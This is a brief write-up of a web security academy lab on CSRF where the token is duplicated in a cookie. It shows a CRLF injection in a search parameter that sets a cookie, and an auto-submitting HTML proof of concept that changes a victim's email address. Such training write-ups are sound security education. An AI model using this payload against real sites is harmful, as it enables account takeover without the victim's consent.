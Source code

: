 # Lab: CSRF where token is duplicated in cookie

- Token is getting duplicated in a cookie.
- Can set cookie -> `/?search=pwnersec;%0d%0aSet-cookie:%20test=test1234`
- Known `token` -> `MYgiLQ5J9nKd9QIcwxw6Pk88UXLxrlxw`

- Exploit ->

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
	<img src="https://ac911f8b1e50b5fcc0b21df300da003d.web-security-academy.net/?search=pwnersec;%0d%0aSet-cookie:%20csrf=MYgiLQ5J9nKd9QIcwxw6Pk88UXLxrlxw" />
    <form action="https://ac911f8b1e50b5fcc0b21df300da003d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="root&#64;pwnersec&#46;hacks" />
      <input type="hidden" name="csrf" value="MYgiLQ5J9nKd9QIcwxw6Pk88UXLxrlxw" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

- Using attacker's `token` in both request `parameter` & csrf `cookie`, the attack is possible.

